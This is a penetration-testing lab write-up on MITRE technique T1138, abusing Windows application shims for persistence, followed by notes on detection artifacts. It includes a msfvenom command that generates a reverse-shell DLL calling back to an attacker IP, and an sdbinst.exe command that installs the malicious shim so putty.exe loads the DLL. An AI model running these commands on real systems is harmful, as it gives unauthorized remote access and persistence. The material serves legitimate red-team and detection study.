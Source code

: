 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../.gitbook/assets/shim-new-fix.png)

![](../.gitbook/assets/shim-injectdll.png)

![](../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../.gitbook/assets/shim-connection.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

